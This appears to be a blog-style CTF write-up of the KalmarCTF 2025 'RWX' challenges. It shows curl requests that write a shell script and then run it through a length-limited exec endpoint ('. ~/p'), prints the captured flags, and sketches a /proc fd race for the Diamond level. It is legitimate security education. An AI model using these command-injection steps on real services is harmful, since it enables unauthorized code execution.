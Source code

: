 ```yaml
---
staticPath: kalmarctf2025
Title: KalmarCTF 2025
Description: Writeup for KalmarCTF 2025, involving exploting a read, write, execute primitive with a limitation on command length.
Date: 2025-03-10
tags:
  - CTF
---
```


## RWX - Bronze

I have read write and execute privileges. The goal is to execute the `would` binary with a specific argument to get it to leak the flag. The issue is that for the execute command, it's just piped into subprocess, I'm limited to 7 bytes

```python
if len(cmd) > 7:
	return 'Command too long', 400
```

```
> curl "http://localhost:6664/write?filename=pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: 'pwn.sh'
```

Let's try writing into /app

```
> curl "http://localhost:6664/write?filename=/app/pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: '/app/pwn.sh'**%**
```

/tmp?

```
> curl "http://localhost:6664/write?filename=/tmp/pwn.sh" -d "/would you be so kind to provide me with a flag"
OK
```


```
curl "http://localhost:6664/exec?filename=/tmp/pwn.sh"
```

No response :-( That's not even the right syntax. Oops


```
curl "http://localhost:6664/exec?cmd=/tmp/pwn.sh
Command too long
```

lets rewrite it use a shorter filename
```
curl "http://localhost:6664/write?filename=/tmp/p" -d "/would you be so kind to provide me with a flag"
```

```
curl "http://localhost:6664/exec?cmd=/tmp/p
Command too long
```

The trick is how do I actually call my script? Sh is installed. I then realized I could use `.` to run a shell script while reading about bash builtins. I also realized I could use the `~` alias.

```
curl "http://localhost:6664/exec?cmd=~/p"
```

Expands to /home/user/p which I think is useful because its shorter than /tmp

```
curl "http://localhost:6664/write?filename=~p" -d "/would you be so kind to provide me with a flag"
```

I don't think write expands the `~`



```
curl "http://localhost:6664/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "http://localhost:6664/exec?cmd=.%20~/p"
```

Ok


```
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"

kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}
```

## RWX - Silver

Same deal as Bronze but I'm limited to 5 bytes. Thankfully, my solve for bronze works for silver!

```
if len(cmd) > 5:
	return 'Command too long', 400
```

```
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"
OKkalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}
```

Yep

## RWX - Diamond

I didn't solve this problem during the CTF. However, I found the solution pretty interesting. It involved exploiting a race condition in order to execute bash commands. The exec command was limited to 4 bytes. You couldn't use the above solution because the user was created without a home directory. The first request started a sh session with `a|sh` this creates an sh process that lives briefly. The second request writes to `/proc/<pid>/fd/0` which then allows for command execution! Pretty cool and not something I would have thought of.